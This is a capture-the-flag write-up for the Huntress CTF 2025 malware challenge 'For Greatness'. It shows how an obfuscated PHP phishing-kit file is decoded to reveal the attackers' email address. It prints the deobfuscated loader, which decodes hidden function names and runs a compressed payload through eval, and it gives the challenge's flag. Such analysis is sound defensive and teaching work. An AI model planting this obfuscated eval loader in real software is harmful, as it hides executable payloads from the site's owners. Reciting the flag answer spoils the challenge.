







# Huntress CTF 2025 - 🐞 For Greatness  

**CTF Name:** Huntress CTF 2025  
**Challenge name:** 🐞 For Greatness  
**Challenge prompt:**  
> Oh great, another phishing kit. This has some functionality to even send stolen data over email! Can you track down the email address they send things to?

```
CAUTION

This is the Malware category, and as such, includes malware. Please be sure to analyze these files within an isolated virtual machine.
```

> The password to the archive is "infected". Uncover the flag from the file provided.

**Challenge category:** Malware  
**Challenge points:** 10  

* * *  

## Steps to solve  

In this challenge, we were given access to the malware that is supposed to contin flag value hidden somewhere.

The very first step was to extract given archive:



Once extracted, new file `j.php` could be opened in the text editor. This php file presented itself as a obfuscated php code:



To proceed further, I decided to use UnPHP tool available at https://jscck.github.io/unphp/ and later https://codebeautify.org/php-beautifier



The code visible above was much cleaner to read, but still involved some encoded characters that could not be easily read. If you look at the line 50 - it is quite obvious that it should read "return[...]" instead of currently visible "re\164\165rn[...]". This observation allowed me to believe, that octal-unescape operation needs to be performed.

Obviously I used CyberChef, and recovered:

```
<?php
goto oxiT1;
KC3di:
$sl5eq = $lFKwz($sl5eq);
goto m4J3j;
zEIti:
$GGMnR = $sl5eq();
goto g0hmD;
m4J3j:
$VhLHm = $lFKwz($VhLHm);
goto NmVIQ;
g0hmD:
$AQTh0();
goto FkkRP;
C9ufu:
$d8Mzs($fPdlo($lFKwz($FRczk)));
goto zEIti;
yLDSn:
$VhLHm = "  b2Jfc3RhcnQ=";
goto vZvXQ;
vZvXQ:
$sl5eq =
    "b2JfZ2V0X2NvbnRlbnRz";
goto lo0I_;
ddvsq:
$fPdlo = $lFKwz($fPdlo);
goto CcPTn;
G3Rr2:
$VhLHm();
goto C9ufu;
a4yHD:
$fPdlo = " Z3p1bmNvbXByZXNz";
goto yLDSn;
zFUky:
$OovTE = $lFKwz($OovTE);
goto Cciv0;
fDcHz:
$AQTh0 = $lFKwz($AQTh0);
goto KC3di;
Cciv0:
$d8Mzs = $iQPa4("$_", $OovTE);
goto fDcHz;
CMzN3:
$iQPa4 = "X19sYW1iZGE=";
goto a4yHD;
CcPTn:
if (!function_exists("__lambda")) {
    function __lambda($sZ_lH, $AP_tK)
    {
        return eval(
            "return function({$sZ_lH}){{$AP_tK}};"
        );
    }
}
goto oSLxJ;
NmVIQ:
$FRczk =
    "eJzt/Vlz4[...]v8BUO7u4g==";
goto G3Rr2;
HV0Iz:
$AQTh0 =
    "    b2JfZW5kX2NsZWFu";
goto IXsP0;
lo0I_:
$lFKwz = "base64_decode";
goto ddvsq;
oSLxJ:
$iQPa4 = $lFKwz($iQPa4);
goto zFUky;
cdhu8:
$FRczk =
    "Loading Class/Code NAME";
goto HV0Iz;
IXsP0:
$OovTE =
    "cmV0dXJuIGV2YWwoJF8pOw==";
goto CMzN3;
oxiT1:
$lFKwz = "printf";
goto cdhu8;
FkkRP:
echo $GGMnR;
```

Here we had to base64 decode leftover payloads - where $FRczk variable was the most interesting (the longest payload in the decoded text). Once again, by using CyberChef, I was able to tell that decoded payload was Zlib Deflate:



To work on this file, I saved base64 payload to the `main_func.wtf` file and executed `cat main_func.wtf | base64 -d > main_func.zlib`.

Next I extracted zlib:

```
zlib-flate -uncompress < main_func.zlib > output
```

Nonetheless, output file needed some more transformation, as it introduced whole-lot of whitespace characters:





Last step of all these transformations was to base64 decode `$___________` variable value. There I was able to find e-mail address used by the creators of this malware:



Once reversed, we get the flag.

**FLAG:** flag{f791310cef49f4d25d0778107033117f}  
